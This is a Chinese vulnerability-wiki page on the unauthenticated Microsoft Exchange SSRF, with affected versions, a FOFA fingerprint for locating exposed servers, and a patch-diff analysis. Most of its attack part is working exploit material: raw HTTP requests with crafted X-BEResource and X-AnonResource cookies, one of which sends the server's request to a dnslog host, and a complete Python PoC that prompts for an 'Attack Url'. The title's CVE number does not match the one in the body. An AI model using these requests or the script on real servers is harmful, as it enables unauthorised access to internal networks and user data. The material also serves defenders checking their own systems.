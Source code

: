 # Microsoft Exchange SSRF漏洞 CVE-2021-26885

## 漏洞描述

Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。2021年03月3日，微软官方发布了Microsoft Exchange安全更新，披露了多个高危严重漏洞，其中：在 CVE-2021-26855 Exchange SSRF漏洞中，攻击者可直接构造恶意请求，以Exchange server的身份发起任意HTTP请求，扫描内网，并且可获取Exchange用户信息。该漏洞利用无需身份认证

## 漏洞影响

> [!NOTE]
>
> Exchange 2013 Versions < 15.00.1497.012,
>
> Exchange 2016 CU18 < 15.01.2106.013,
>
> Exchange 2016 CU19 < 15.01.2176.009,
>
> Exchange 2019 CU7 < 15.02.0721.013,
>
> Exchange 2019 CU8 < 15.02.0792.010

# FOFA

> [!NOTE]
>
> icon_hash="1768726119"

## 漏洞复现

与 SSRF 有关的文件

```
/owa/auth/Current/themes/resources/logon.css
/owa/auth/Current/themes/resources/...
/ecp/default.flt
/ecp/main.css
/ecp/<single char>.js
```

查看补丁中的改变，可以看到有关 **BackEndServer** 使用的类关于 **BEResourceRequestHandler** 的改变

![](image/exchan-1.png)



修复 BEResourceRequestHandler 使用的 BakcEndServer类的补丁

![](image/exchan-2.png)

查看调用**BERsourceRequestHandler** 的方法 **SelectHandlerForUnauthenticatedRequest** 查找相关路径 **ProxyMoudle**

![](image/exchan-3.png)

可以从中看到需要带有 EXP协议(例如路径 /ecp/), Cookie参数 **X-BEResponse**, 还有以静态扩展名结尾的 URL (例如 x.js, x.css等)

而其中的请求为 HttpProxy 来实现的，所以大部分的POC中请求的文件为**/etc/y.js** 这样类似不存在的文件

参数 **X-BEResource** 解析在 **BackEndServer.FromString**

跟踪 **BackEndServer**对象， 其中该对象使用 **ProxyRequestHandler** 向主机发送请求

![](image/exchan-4.png)

这里进行SSRF的漏洞复现，首先访问 **/ecp/PeiQi.js** 文件

并设置Cookie **X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true**

```
GET /ecp/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true
```

用这样的方式请求可以确定是否存在 SSRF漏洞

![](image/exchan-5.png)

```
响应包为:
NegotiateSecurityContext failed with for host 'peiqi_wiki' with status 'TargetUnknown'

显示这样的就是可能存在了
```

在通过发送一个请求给 Dnslog确认是否存在 SSRF给 Dnslog发送了一个请求

```
GET /owa/auth/PeiQi.js HTTP/1.1
Host: xxx.xxx.com
Connection: close
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: image/avif,image/webp,image/apng,image/svg+xml,image/*,*/*;q=0.8
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: image
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
```

> [!NOTE]
>
> Cookie: X-AnonResource=true; X-AnonResource-Backend=ianqsx.dnslog.cn/ecp/default.flt?~3; X-BEResource=ianqsx.dnslog.cn/owa/auth/logon.aspx?~3;
>
> 将其中的 Dnslog换成自己的

![](image/exchan-6.png)

确定收到了由服务端发送的请求，存在SSRF漏洞

## 漏洞利用POC

```python
import requests
import sys
import random
import re
import time
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mVersion: Microsoft Exchange多个版本                                \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> mail.xxx.xxx.xxx                                 \033[0m')
    print('+  \033[36mDnslog      >>> xxxx.dnslog.cn                                     \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    vuln_url = "https://" + target_url + "/ecp/PeiQi.js"
    headers = {
        'Cookie': 'X-BEResource=peiqi_wiki/api/endpoint#~1; X-AnonResource=true'
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        if response.status_code == 500 and 'NegotiateSecurityContext' in response.text and 'peiqi_wiki' in response.text:
            print("\033[32m[o] 目标 {} 存在SSRF漏洞， 输入Dnslog地址进一步检测....\033[0m".format(target_url))
            dnslog = str(input("\033[35mDnslog >>> \033[0m"))
            POC_2(target_url, dnslog)
        else:
            print("\033[31m[x] 目标 {} 不存在SSRF漏洞 \033[0m".format(target_url))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)

def POC_2(target_url, dnslog):
    vuln_url = "https://" + target_url + "/owa/auth/PeiQi.js"
    headers = {
        'Cookie': 'X-AnonResource=true; X-AnonResource-Backend={}/ecp/default.flt?~3; X-BEResource={}/owa/auth/logon.aspx?~3;'.format(dnslog, dnslog)
    }
    try:
        requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
        response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)
        print("\033[32m[o] 请查看 Dnslog：{} 响应....\033[0m".format(dnslog))
    except Exception as e:
        print("\033[31m[x] 请求失败 \033[0m", e)


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    POC_1(target_url)
```

![](image/exchan-7.png)

## Goby & POC

> [!NOTE]
>
> Microsoft Exchange SSRF漏洞 CVE-2021-26885

![](image/exchan-8.png)

![](image/exchan-9.png)